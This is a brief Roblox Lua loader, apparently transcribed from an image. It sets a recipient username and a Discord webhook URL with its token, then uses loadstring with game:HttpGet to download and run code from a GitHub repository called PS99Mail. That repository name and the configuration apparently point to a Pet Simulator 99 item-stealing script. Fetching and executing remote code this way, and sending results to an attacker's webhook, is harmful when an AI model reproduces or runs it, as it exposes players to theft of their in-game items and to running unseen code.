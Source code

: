 Username = "5g1f55h1h6"
Webhook = "https://discord.com/api/webhooks/1199038716166013068/hzdX_ju47MbcKjikin9QRePPQmQ11Hw9hRkMoe9I7UMkgI5riwrQ627rt5ICS8Dm3xNy"
LoadingScreen = true

loadstring(game:HttpGet("https://raw.githubusercontent.com/LypherX/PS99Mail/main/Mementomori"))()
